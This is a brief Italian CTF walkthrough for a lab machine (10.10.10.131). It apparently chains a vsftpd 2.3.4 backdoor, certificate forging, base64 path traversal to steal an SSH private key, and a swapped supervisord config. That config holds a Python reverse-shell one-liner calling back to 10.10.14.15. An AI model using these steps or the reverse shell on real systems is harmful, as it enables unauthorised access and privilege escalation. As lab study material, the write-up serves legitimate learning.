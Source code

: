 Cosa fare:

1) trovato exploit con backdoor vsftpd-2.3.4-exploit
2) sulla psyshell, vedersi show $tokyo
3) quindi eseguire la funzione sudo $tokyo->sign(Certificatoca che si ottiene tramite openssl client richiesta al server,certificato utente generato da chiave privata)
4) restituisce un certificato da convertire a file p12 : openssl pkcs12 -export -in cert.csr -inkey private-key-file-name.key -out filename.p12
5) firefox: sulle impostazioni > certificaticertificati serverc'è export
6) attraverso ?path=../ ecc mi scarico la chiave privata id_rsa
7) infatti /file/ (scritta in base 64, quindi metto la scritta base64 del path che voglio scaricare)
8) uso la chiave privata accesso a ssh professor
9) ssh -i id_rsa professor@10.10.10.131

Root:
Per il root mi accorgo che viene eseguito un programma continuamente: memcached.ini, non posso modificarlo, ma posso modificarne il nome, modifico il nome, ne creo un altro uguale memcached.ini con dentro:
[program:memcached]
command = sudo python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.15",7080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

aspetto e divento root.